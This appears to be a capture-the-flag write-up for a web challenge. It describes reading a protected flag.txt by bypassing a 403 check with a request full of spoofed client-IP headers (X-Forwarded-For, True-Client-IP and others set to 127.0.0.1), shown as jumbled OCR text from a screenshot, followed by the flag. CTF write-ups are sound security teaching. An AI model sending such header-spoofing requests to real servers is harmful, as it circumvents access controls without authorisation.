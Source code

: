 # README
> Read me if you can!!

## About the Challenge
We got a website without the source code, and on this website, we need to read the `flag.txt` file to obtain the flag.


[Image extracted text: Read
Enter anything
Read
flag txt
text txt]


In this case, we can't directly read the `flag.txt` file. Instead, we can only read the `text.txt` file.


[Image extracted text: Read
text txt
Read
Yes! You can read files! Dont ask for hint its ezzl!]



[Image extracted text: Read
txt
Read
403 Access Denied
flag t]


## How to Solve?
At first, I thought we need to read the flag using a Path Traversal vulnerability. However, in order to access the flag, we must first bypass the 403 restriction by adding an HTTP proxy header


[Image extracted text: Request
Response
Pretty
Raw
Hex
6
In
=
Pretty
Raw
Hex
Render
GET
Ifetch?file-flag_
txt
HTTP/1.0
HTTP/1.0
200
OK
2
Host
127.0.0.1
2 Content-Type
application/json
3 X-Originating-IP:
127.0.0.1
3 Content-Length:
34
X-Forwarded-For:
127.0.0.1
Server:
Werkzeug/2.0.3 Python/3.6.15
5
X-Forwarded:
127
0 .
0.1
5
Date:
Sun,
21
Jan
2024
14:31:02
GMT
6
Forwarded-For:
127.0.0.1
6
X-Remote-IP:
127.0.0.1
8
X-Remote-Addr:
127.0.0.1
result"
KCTF{kudoSw3lld0n3 !}"
X-ProxyUser-Ip:
127.0.0.1
10 X-Original-URL:
127.0.0.1
11
Client-IP:
127.
0.0.1
12
True-Client-IP:
127.0.0.1
13
Cluster-Client-IP:
127.0.0.1
14
X-ProxyUser-Ip:
127.0.0.1
15
16]


```
KCTF{kud05w3lld0n3!}
```